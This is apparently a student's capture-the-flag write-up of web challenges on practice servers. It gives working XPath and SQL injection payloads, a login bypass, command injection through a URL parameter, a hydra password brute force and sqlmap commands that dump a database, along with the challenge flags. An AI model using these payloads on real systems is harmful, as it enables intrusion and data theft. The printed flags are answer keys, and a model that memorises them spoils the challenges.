




# Web Hacking

## Web 1

**Find the flag on the following site: http://vader.hackingarena.com:805/**

--------------------------------------------------------------------------------

I tried Visiting the http://vader.hackingarena.com:805/robots.txt 

that gave me subfolders, and */nothinguseful* subfolder which had the flag

## web 2 

**Find the flag here: http://kenobi.hackingarena.com:837**

--------------------------------------------------------------------------------

i searched for default credentials for Xerox 

## The beatles

**Hey, let's bring Beatles back together: http://vader.hackingarena.com:828**

----------------------------------------------------------------------------

Hacking-Arena{I've_got_my_flag_set_on_you}

I tried to change the html code of the page.
max length of inputs => 20
and changed the value of options 

## web 3 

**Find the flag here: http://vader.hackingarena.com:809/**

--------------------------------------------------------------------------------

## Norwegian girl name 

**Find the flag here: http://vader.hackingarena.com:809/**

--------------------------------------------------------------------------------

I tried different methods and tools like brutex, burp-suit, nmap etc.

and then tried hydra to brutforce into the website but the passwords i got didnt work.

So i made a girl name list and run hydra again. That gave me couple of names which i tried Until i got Camilla as password

## Death Star calendar
---------------------------------------------------------

**the flag**: UiO-Hacking-Arena{Star_path_injection}

**Solution**: ' or position()=5]/*[4]|/a['

**refrence**: http://www.securityidiots.com/Web-Pentest/XPATH-Injection/xpath-injection-part-1.html

**Pictures**

## Empty page
---------------------------------------------------------
**The flag**: Hacking-Arena{n0t_empty_it_is_never_empty}

**The solution**: 

    http://kenobi.hackingarena.com:801/index.php?cmd=/;%20ls%20/var

    http://kenobi.hackingarena.com:801/index.php?cmd=/var/sikkerhetsfestivalen/flag

**Description**:

The source code shows the syntaks of the link that it takes cmd after index php

The link below shows that the website runs 'cat' any file in the command 

    http://kenobi.hackingarena.com:801/index.php?cmd=/index.php

so i finished the cat command with ";" and run "ls" on => /var => sikkerhetfestival

there was a file called flag.txt 

**Pictures**

## db login
---------------------------------------------------------

**the tag**: Hacking-Arena{Tw1st_and_sh0000uuut}

**Solution**: admin'#

## Beatles song catalogue 1
----------------------------------------------------------

**The Flag**: Hacking-Arena{H4rd d4y5 0verfl0w}

**Solution**:

    #Found a vulnderablity in "year"
    sqlmap -u "http://kenobi.hackingarena.com:915/index.php?year=1963" --technique=B
    sqlmap -u "http://kenobi.hackingarena.com:915/index.php?year=1963" --dbs --flush-session
    sqlmap -u "http://kenobi.hackingarena.com:915/index.php?year=1963" --dbs
    sqlmap -u "http://kenobi.hackingarena.com:915/index.php?year=1963" --tables -D BeatlesData
    sqlmap -u "http://kenobi.hackingarena.com:915/index.php?year=1963" -D BeatlesData -T Flag --dump

**Pictures**

------------------